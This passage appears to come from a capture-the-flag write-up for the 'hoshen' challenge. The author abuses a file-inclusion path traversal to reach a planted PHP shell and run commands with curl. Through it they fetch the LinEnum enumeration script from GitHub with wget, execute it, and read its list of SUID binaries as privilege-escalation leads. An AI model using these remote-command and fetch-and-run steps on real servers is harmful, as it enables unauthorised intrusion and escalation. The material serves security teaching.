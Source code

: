 We can run scripts:
```console
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell"  -X POST --data-urlencode "cmd=wget -O /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh " && echo
<pre></pre>
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell"  -X POST --data-urlencode "cmd=ls -la /tmp" && echo
<pre>total 60
drwxrwxrwt  2 root     root      4096 Feb 12 20:21 .
drwxr-xr-x 23 root     root      4096 Feb 11 06:45 ..
-rw-r--r--  1 www-data www-data 46631 Feb 12 20:21 LinEnum.sh
-rw-r--r--  1 www-data www-data   113 Feb 12 20:20 shell
</pre>
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell"  -X POST --data-urlencode "cmd=chmod +x /tmp/LinEnum.sh" && echo
<pre></pre>
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell"  -X POST --data-urlencode "cmd=/tmp/LinEnum.sh > linout.txt" && echo
<pre></pre>
```

One of the sections of the `LinEnum` report is about `SetUID` files:
```
SUID files:
-rwsr-xr-x 1 root root 35600 Mar 29  2018 /sbin/mount.cifs
-rwsr-xr-x 1 root root 8432 Jan 22 11:28 /bin/files
-rwsr-xr-x 1 root root 26696 Aug 22 23:47 /bin/umount
-rwsr-xr-x 1 root root 43088 Aug 22 23:47 /bin/mount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 149080 Jan 31 17:18 /usr/bin/sudo
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 109432 Oct 30 12:17 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
```

These executable files are able to run with the permissions of the owner, as opposed to regular executable files which run with the permissions of the current user.
